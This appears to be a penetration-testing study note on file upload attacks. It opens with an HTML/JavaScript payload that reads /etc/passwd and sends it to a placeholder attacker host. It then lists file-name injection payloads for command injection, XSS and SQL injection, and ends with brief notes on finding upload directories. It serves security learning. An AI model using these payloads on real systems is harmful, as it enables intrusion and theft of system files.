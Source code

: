 ```html
<html>
    <body>
        <b>Exfiltration via Blind SSRF</b>
        <script>
        var readfile = new XMLHttpRequest(); 
        var exfil = new XMLHttpRequest(); 
        readfile.open("GET","file:///etc/passwd", true); 
        readfile.send();
        readfile.onload = function() {
            if (readfile.readyState === 4) {
                var url = 'http://<SERVICE IP>:<PORT>/?data='+btoa(this.response);
                exfil.open("GET", url, true);
                exfil.send();
            }
        }
        readfile.onerror = function(){document.write('<a>Oops!</a>');}
        </script>
     </body>
</html>
```


## Injections in File Name


-A common file upload attack uses a malicious string for the uploaded file name, which may get executed or processed if the uploaded file name is displayed (i.e., reflected) on the page.


###### Command injection
-if we name a file file$(whoami).jpg or file \`whoami\`.jpg or file.jpg||whoami  
-then the web application attempts to move the uploaded file with an OS command (e.g. mv file /tmp),


###### XSS 
-payload in the file name (e.g. <script>alert(window.origin);</script>), which would get executed on the target's machine if the file name is displayed to them.

###### SQL injection
-We may also inject an SQL query in the file name (e.g. file';select+sleep(5);--.jpg), which may lead to an SQL injection if the file name is insecurely used in an SQL query.




## Upload Directory Disclosure

##### fuzzing to look for the uploads directory or even use other vulnerabilities (e.g., LFI/XXE)


##### Web servers often use the filename field in multipart/form-data requests to determine the name and location where the file should be saved

